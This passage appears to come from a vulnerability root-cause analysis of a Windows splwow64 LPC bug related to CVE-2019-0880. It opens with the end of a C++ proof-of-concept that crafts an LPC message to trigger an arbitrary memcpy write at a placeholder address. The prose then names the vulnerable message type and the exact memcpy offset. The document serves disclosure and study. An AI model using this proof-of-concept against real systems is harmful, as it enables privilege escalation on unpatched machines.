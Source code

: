 ```c++
                printf("Failed to get port name\n");
                return 0;
        }

        printf("Create port. \n");

        HANDLE portHandle = CreatePortSharedBuffer(&portName);
        if (!(portHandle && ClientView.ViewBase && ClientView.ViewRemoteBase))
        {
                printf("portHandle = 0xllX && ClientView.ViewBase = 0xllX && ClientView.ViewRemoteBase = 0xllX\n", portHandle, ClientView.ViewBase, ClientView.ViewRemoteBase);
                return 0;
        }

        printf("Prepare objects\n");

        PrepareMessage();

        printf("Get offset\n");

        printf("Press [Enter] to continue . . .");
        fflush(stdout);
        getchar();
        UINT64 value = 0;
        if (!WriteData(portHandle, 0x4141414141414141, (UCHAR*)&value, 8))
        {
                printf("WriteData failed\n");
                return 0;
        }

        printf("Done\n");

        return 0;
}
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** No

## The Vulnerability

**Bug class:** Untrusted pointer dereference

**Vulnerability details:**

The vulnerability is almost exactly the same as [CVE-2019-0880](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0880) [[detailed technical analysis](https://byteraptors.github.io/windows/exploitation/2020/05/24/sandboxescape.html). Just like CVE-2019-0880, this vulnerability allows the attacker to call `memcpy` with arbitrary parameters in the splwow64 privileged address space. The arbitrary parameters are sent in an LPC message to splwow64.

In this case, the vulnerable message type is 0x6D, which is the call to `DocumentEvent`. After `DocumentEvent` is called from `GdiPrinterThunk`, a call to `memcpy` can occur as long as you craft specific fields in your LPC message to the right values. This memcpy call is at `gdi32full!GdiPrinterThunk+0x1E85A`. 
